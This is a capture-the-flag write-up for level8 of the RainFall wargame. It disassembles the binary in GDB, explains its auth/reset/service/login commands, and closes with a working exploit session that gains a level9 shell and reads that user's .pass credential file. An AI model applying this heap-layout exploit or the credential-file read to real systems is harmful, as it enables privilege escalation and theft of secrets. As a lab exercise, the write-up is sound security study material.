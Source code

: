 # level8

## exploring the binary
```shell
level8@RainFall:~$ ./level8
(nil), (nil)
phantom society
(nil), (nil)
123 456
(nil), (nil)
```
It appears that the binary continuously accepts two strings from standard input within an infinite loop, suggesting that there might be a specific combination of these strings that grants access to the next level.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	push   %edi
   0x08048568 <+4>:	push   %esi
   0x08048569 <+5>:	and    $0xfffffff0,%esp
   0x0804856c <+8>:	sub    $0xa0,%esp
   0x08048572 <+14>:	jmp    0x8048575 <main+17>
   0x08048574 <+16>:	nop
   0x08048575 <+17>:	mov    0x8049ab0,%ecx
   0x0804857b <+23>:	mov    0x8049aac,%edx
   0x08048581 <+29>:	mov    $0x8048810,%eax
   0x08048586 <+34>:	mov    %ecx,0x8(%esp)
   0x0804858a <+38>:	mov    %edx,0x4(%esp)
   0x0804858e <+42>:	mov    %eax,(%esp)
   0x08048591 <+45>:	call   0x8048410 <printf@plt>
   0x08048596 <+50>:	mov    0x8049a80,%eax
   0x0804859b <+55>:	mov    %eax,0x8(%esp)
   0x0804859f <+59>:	movl   $0x80,0x4(%esp)
   0x080485a7 <+67>:	lea    0x20(%esp),%eax
   0x080485ab <+71>:	mov    %eax,(%esp)
   0x080485ae <+74>:	call   0x8048440 <fgets@plt>
   0x080485b3 <+79>:	test   %eax,%eax
   0x080485b5 <+81>:	je     0x804872c <main+456>
   0x080485bb <+87>:	lea    0x20(%esp),%eax
   0x080485bf <+91>:	mov    %eax,%edx
   0x080485c1 <+93>:	mov    $0x8048819,%eax
   0x080485c6 <+98>:	mov    $0x5,%ecx
   0x080485cb <+103>:	mov    %edx,%esi
   0x080485cd <+105>:	mov    %eax,%edi
   0x080485cf <+107>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x080485d1 <+109>:	seta   %dl
   0x080485d4 <+112>:	setb   %al
   0x080485d7 <+115>:	mov    %edx,%ecx
   0x080485d9 <+117>:	sub    %al,%cl
   0x080485db <+119>:	mov    %ecx,%eax
   0x080485dd <+121>:	movsbl %al,%eax
   0x080485e0 <+124>:	test   %eax,%eax
   0x080485e2 <+126>:	jne    0x8048642 <main+222>
   0x080485e4 <+128>:	movl   $0x4,(%esp)
   0x080485eb <+135>:	call   0x8048470 <malloc@plt>
   0x080485f0 <+140>:	mov    %eax,0x8049aac
   0x080485f5 <+145>:	mov    0x8049aac,%eax
   0x080485fa <+150>:	movl   $0x0,(%eax)
   0x08048600 <+156>:	lea    0x20(%esp),%eax
   0x08048604 <+160>:	add    $0x5,%eax
   0x08048607 <+163>:	movl   $0xffffffff,0x1c(%esp)
   0x0804860f <+171>:	mov    %eax,%edx
   0x08048611 <+173>:	mov    $0x0,%eax
   0x08048616 <+178>:	mov    0x1c(%esp),%ecx
   0x0804861a <+182>:	mov    %edx,%edi
   0x0804861c <+184>:	repnz scas %es:(%edi),%al
   0x0804861e <+186>:	mov    %ecx,%eax
   0x08048620 <+188>:	not    %eax
   0x08048622 <+190>:	sub    $0x1,%eax
   0x08048625 <+193>:	cmp    $0x1e,%eax
   0x08048628 <+196>:	ja     0x8048642 <main+222>
   0x0804862a <+198>:	lea    0x20(%esp),%eax
   0x0804862e <+202>:	lea    0x5(%eax),%edx
   0x08048631 <+205>:	mov    0x8049aac,%eax
   0x08048636 <+210>:	mov    %edx,0x4(%esp)
   0x0804863a <+214>:	mov    %eax,(%esp)
   0x0804863d <+217>:	call   0x8048460 <strcpy@plt>
   0x08048642 <+222>:	lea    0x20(%esp),%eax
   0x08048646 <+226>:	mov    %eax,%edx
   0x08048648 <+228>:	mov    $0x804881f,%eax
   0x0804864d <+233>:	mov    $0x5,%ecx
   0x08048652 <+238>:	mov    %edx,%esi
   0x08048654 <+240>:	mov    %eax,%edi
   0x08048656 <+242>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x08048658 <+244>:	seta   %dl
   0x0804865b <+247>:	setb   %al
   0x0804865e <+250>:	mov    %edx,%ecx
   0x08048660 <+252>:	sub    %al,%cl
   0x08048662 <+254>:	mov    %ecx,%eax
   0x08048664 <+256>:	movsbl %al,%eax
   0x08048667 <+259>:	test   %eax,%eax
   0x08048669 <+261>:	jne    0x8048678 <main+276>
   0x0804866b <+263>:	mov    0x8049aac,%eax
   0x08048670 <+268>:	mov    %eax,(%esp)
   0x08048673 <+271>:	call   0x8048420 <free@plt>
   0x08048678 <+276>:	lea    0x20(%esp),%eax
   0x0804867c <+280>:	mov    %eax,%edx
   0x0804867e <+282>:	mov    $0x8048825,%eax
   0x08048683 <+287>:	mov    $0x6,%ecx
   0x08048688 <+292>:	mov    %edx,%esi
   0x0804868a <+294>:	mov    %eax,%edi
   0x0804868c <+296>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x0804868e <+298>:	seta   %dl
   0x08048691 <+301>:	setb   %al
   0x08048694 <+304>:	mov    %edx,%ecx
   0x08048696 <+306>:	sub    %al,%cl
   0x08048698 <+308>:	mov    %ecx,%eax
   0x0804869a <+310>:	movsbl %al,%eax
   0x0804869d <+313>:	test   %eax,%eax
   0x0804869f <+315>:	jne    0x80486b5 <main+337>
   0x080486a1 <+317>:	lea    0x20(%esp),%eax
   0x080486a5 <+321>:	add    $0x7,%eax
   0x080486a8 <+324>:	mov    %eax,(%esp)
   0x080486ab <+327>:	call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:	mov    %eax,0x8049ab0
   0x080486b5 <+337>:	lea    0x20(%esp),%eax
   0x080486b9 <+341>:	mov    %eax,%edx
   0x080486bb <+343>:	mov    $0x804882d,%eax
   0x080486c0 <+348>:	mov    $0x5,%ecx
   0x080486c5 <+353>:	mov    %edx,%esi
   0x080486c7 <+355>:	mov    %eax,%edi
   0x080486c9 <+357>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x080486cb <+359>:	seta   %dl
   0x080486ce <+362>:	setb   %al
   0x080486d1 <+365>:	mov    %edx,%ecx
   0x080486d3 <+367>:	sub    %al,%cl
   0x080486d5 <+369>:	mov    %ecx,%eax
   0x080486d7 <+371>:	movsbl %al,%eax
   0x080486da <+374>:	test   %eax,%eax
   0x080486dc <+376>:	jne    0x8048574 <main+16>
   0x080486e2 <+382>:	mov    0x8049aac,%eax
   0x080486e7 <+387>:	mov    0x20(%eax),%eax
   0x080486ea <+390>:	test   %eax,%eax
   0x080486ec <+392>:	je     0x80486ff <main+411>
   0x080486ee <+394>:	movl   $0x8048833,(%esp)
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
   0x080486fa <+406>:	jmp    0x8048574 <main+16>
   0x080486ff <+411>:	mov    0x8049aa0,%eax
   0x08048704 <+416>:	mov    %eax,%edx
   0x08048706 <+418>:	mov    $0x804883b,%eax
   0x0804870b <+423>:	mov    %edx,0xc(%esp)
   0x0804870f <+427>:	movl   $0xa,0x8(%esp)
   0x08048717 <+435>:	movl   $0x1,0x4(%esp)
   0x0804871f <+443>:	mov    %eax,(%esp)
   0x08048722 <+446>:	call   0x8048450 <fwrite@plt>
   0x08048727 <+451>:	jmp    0x8048574 <main+16>
   0x0804872c <+456>:	nop
   0x0804872d <+457>:	mov    $0x0,%eax
   0x08048732 <+462>:	lea    -0x8(%ebp),%esp
   0x08048735 <+465>:	pop    %esi
   0x08048736 <+466>:	pop    %edi
   0x08048737 <+467>:	pop    %ebp
   0x08048738 <+468>:	ret
End of assembler dump.
```
We observe that <code>main()</code> employs various functions, ranging from <code>fgets()</code> to <code>system()</code>. After the user inputs data, the buffer read is compared to four different strings - the correct combination of data evokes <code>/bin/bash</code> with <code>system()</code>. Each of these reference strings is loaded into <code>eax</code> (and consequently a different register), allowing us to inspect its contents:

```shell
(gdb) x/s 0x8048819
0x8048819:	 "auth "
(gdb) x/s 0x804881f
0x804881f:	 "reset"
(gdb) x/s 0x8048825
0x8048825:	 "service"
(gdb) x/s 0x804882d
0x804882d:	 "login"
```
We observe that two of the strings <code>auth</code> and <code>service</code> actually represent global variables, which undergo modification during runtime.
```shell
All defined variables:

Non-debugging symbols:
0x08048808  _fp_hw
0x0804880c  _IO_stdin_used
0x08048948  __FRAME_END__
0x0804994c  __CTOR_LIST__
0x0804994c  __init_array_end
0x0804994c  __init_array_start
0x08049950  __CTOR_END__
0x08049954  __DTOR_LIST__
0x08049958  __DTOR_END__
0x0804995c  __JCR_END__
0x0804995c  __JCR_LIST__
0x08049960  _DYNAMIC
0x08049a2c  _GLOBAL_OFFSET_TABLE_
0x08049a60  __data_start
0x08049a60  data_start
0x08049a64  __dso_handle
0x08049a80  stdin@@GLIBC_2.0
0x08049aa0  stdout@@GLIBC_2.0
0x08049aa4  completed.6159
0x08049aa8  dtor_idx.6161
0x08049aac  auth
0x08049ab0  service
```
## 4 commands

- <code>auth</code>: Allocates 4 bytes for the <code>auth</code> variable and uses <code>strcpy</code> to copy up to 32 bytes (0x20) into it.
- <code>reset</code>: Frees the memory allocated for the auth variable.
- <code>service</code>: Uses <code>strdup</code> to duplicate the remaining input and stores it in the <code>service</code> variable.
- <code>login</code>: Verifies if the 32nd character in <code>auth</code> is set.

It seems straightforward: we begin by entering 'auth', then proceed to fill the buffer. This simplicity arises from the close relationship between the global variables and the stack.

## exploit
``` shell
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service ffffffffffffffffffffffff
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

